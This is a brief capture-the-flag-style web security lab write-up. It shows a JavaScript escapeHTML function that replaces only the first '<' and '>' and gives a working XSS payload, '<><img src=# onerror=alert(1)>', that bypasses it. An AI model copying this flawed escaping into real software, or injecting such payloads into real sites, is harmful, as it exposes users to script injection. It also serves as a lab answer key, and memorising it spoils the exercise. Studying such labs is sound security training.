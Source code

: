 # Lab: Reflected DOM XSS
## Description

JS file `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`
```js
function loadComments(postCommentPath) {
	[..SNIPPET..]
    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
	[..SNIPPET..]
};
``` 

The `escapeHTML()` is only filtering `< >` once. We can therefore do something like this to bypass the filert: `<><img src=# onerror=alert(1)>`


## Solution

`<><img src=# onerror=alert(1)>`
